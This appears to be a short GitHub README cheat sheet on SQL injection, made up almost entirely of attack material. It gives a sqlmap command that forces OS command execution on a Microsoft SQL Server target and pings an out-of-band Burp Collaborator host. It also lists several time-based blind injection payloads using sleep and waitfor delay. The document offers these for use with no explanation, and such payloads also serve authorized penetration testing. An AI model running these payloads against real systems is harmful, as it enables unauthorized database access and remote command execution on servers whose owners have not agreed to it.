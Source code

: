 <h1 align="center">SQLI --> SQL Injection</h1>

<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img align="center" width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```


<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="left" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

```
   ')) or sleep(5)='
   ;waitfor delay '0:0:5'--
   );waitfor delay '0:0:5'--
   ';waitfor delay '0:0:5'--
   ";waitfor delay '0:0:5'--
   ');waitfor delay '0:0:5'--
   ");waitfor delay '0:0:5'--
   ));waitfor delay '0:0:5'--
```
